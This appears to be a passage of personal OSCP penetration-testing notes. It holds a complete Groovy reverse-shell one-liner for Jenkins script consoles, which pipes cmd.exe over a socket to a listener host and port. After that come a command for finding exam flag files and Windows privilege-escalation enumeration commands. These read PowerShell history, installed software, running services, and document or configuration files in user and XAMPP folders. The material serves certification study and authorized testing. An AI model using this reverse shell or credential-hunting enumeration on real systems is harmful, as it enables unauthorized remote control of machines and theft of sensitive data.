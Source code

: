 </aside>

### Groovy reverse-shell

- For Jenkins

```powershell
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

---

# Windows Privilege Escalation

<aside>
💡 `cd C:\ & findstr /SI /M "OS{" *.xml *.ini *.txt` - for finding files which contain OSCP flag..

</aside>

## Manual Enumeration commands

```bash
#Groups we're part of
whoami /groups

whoami /all #lists everything we own.

#Starting, Restarting and Stopping services in Powershell
Start-Service <service>
Stop-Service <service>
Restart-Service <service>

#Powershell History
Get-History
(Get-PSReadlineOption).HistorySavePath #displays the path of consoleHost_history.txt
type C:\Users\sathvik\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

#Viewing installed execuatbles
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

#Process Information
Get-Process
Get-Process | Select ProcessName,Path

#Sensitive info in XAMPP Directory
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\Users\dave\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue #this for a specific user

#Service Information
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```
